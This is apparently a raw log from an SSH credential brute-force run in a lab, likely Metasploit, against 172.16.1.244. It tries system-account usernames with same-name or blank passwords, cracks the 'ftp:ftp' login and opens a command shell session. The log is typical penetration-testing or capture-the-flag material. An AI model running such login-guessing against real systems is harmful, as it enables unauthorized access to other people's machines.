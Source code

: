 ```bash
[-] 172.16.1.244:22 - Failed: 'bin:bin'
[-] 172.16.1.244:22 - Failed: 'bin:'
[-] 172.16.1.244:22 - Failed: 'sys:sys'
[-] 172.16.1.244:22 - Failed: 'sys:'
[-] 172.16.1.244:22 - Failed: 'sync:sync'
[-] 172.16.1.244:22 - Failed: 'sync:'
[-] 172.16.1.244:22 - Failed: 'games:games'
[-] 172.16.1.244:22 - Failed: 'games:'
[-] 172.16.1.244:22 - Failed: 'man:man'
[-] 172.16.1.244:22 - Failed: 'man:'
[-] 172.16.1.244:22 - Failed: 'lp:lp'
[-] 172.16.1.244:22 - Failed: 'lp:'
[-] 172.16.1.244:22 - Failed: 'mail:mail'
[-] 172.16.1.244:22 - Failed: 'mail:'
[-] 172.16.1.244:22 - Failed: 'news:news'
[-] 172.16.1.244:22 - Failed: 'news:'
[-] 172.16.1.244:22 - Failed: 'uucp:uucp'
[-] 172.16.1.244:22 - Failed: 'uucp:'
[-] 172.16.1.244:22 - Failed: 'proxy:proxy'
[-] 172.16.1.244:22 - Failed: 'proxy:'
[-] 172.16.1.244:22 - Failed: 'www-data:www-data'
[-] 172.16.1.244:22 - Failed: 'www-data:'
[-] 172.16.1.244:22 - Failed: 'backup:backup'
[-] 172.16.1.244:22 - Failed: 'backup:'
[-] 172.16.1.244:22 - Failed: 'list:list'
[-] 172.16.1.244:22 - Failed: 'list:'
[-] 172.16.1.244:22 - Failed: 'irc:irc'
[-] 172.16.1.244:22 - Failed: 'irc:'
[-] 172.16.1.244:22 - Failed: 'gnats:gnats'
[-] 172.16.1.244:22 - Failed: 'gnats:'
[-] 172.16.1.244:22 - Failed: 'nobody:nobody'
[-] 172.16.1.244:22 - Failed: 'nobody:'
[-] 172.16.1.244:22 - Failed: 'systemd-timesync:systemd-timesync'
[-] 172.16.1.244:22 - Failed: 'systemd-timesync:'
[-] 172.16.1.244:22 - Failed: 'systemd-network:systemd-network'
[-] 172.16.1.244:22 - Failed: 'systemd-network:'
[-] 172.16.1.244:22 - Failed: 'systemd-resolve:systemd-resolve'
[-] 172.16.1.244:22 - Failed: 'systemd-resolve:'
[-] 172.16.1.244:22 - Failed: 'systemd-bus-proxy:systemd-bus-proxy'
[-] 172.16.1.244:22 - Failed: 'systemd-bus-proxy:'
[-] 172.16.1.244:22 - Failed: 'syslog:syslog'
[-] 172.16.1.244:22 - Failed: 'syslog:'
[-] 172.16.1.244:22 - Failed: '_apt:_apt'
[-] 172.16.1.244:22 - Failed: '_apt:'
[-] 172.16.1.244:22 - Failed: 'lxd:lxd'
[-] 172.16.1.244:22 - Failed: 'lxd:'
[-] 172.16.1.244:22 - Failed: 'messagebus:messagebus'
[-] 172.16.1.244:22 - Failed: 'messagebus:'
[-] 172.16.1.244:22 - Failed: 'uuidd:uuidd'
[-] 172.16.1.244:22 - Failed: 'uuidd:'
[-] 172.16.1.244:22 - Failed: 'dnsmasq:dnsmasq'
[-] 172.16.1.244:22 - Failed: 'dnsmasq:'
[-] 172.16.1.244:22 - Failed: 'shrek:shrek'
[-] 172.16.1.244:22 - Failed: 'shrek:'
[+] 172.16.1.244:22 - Success: 'ftp:ftp' 'Could not chdir to home directory /home/ftp: No such file or directory uid=1001(ftp) gid=1001(ftp) groups=1001(ftp) Could not chdir to home directory /home/ftp: No such file or directory Linux ubuntu 4.4.0-194-generic #226-Ubuntu SMP Wed Oct 21 10:19:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 7 opened (172.16.1.10:39345 -> 172.16.1.244:22) at 2021-07-29 20:06:46 +0200
[-] 172.16.1.244:22 - Failed: 'colord:colord'
[-] 172.16.1.244:22 - Failed: 'colord:'
[-] 172.16.1.244:22 - Failed: 'sshd:sshd'
```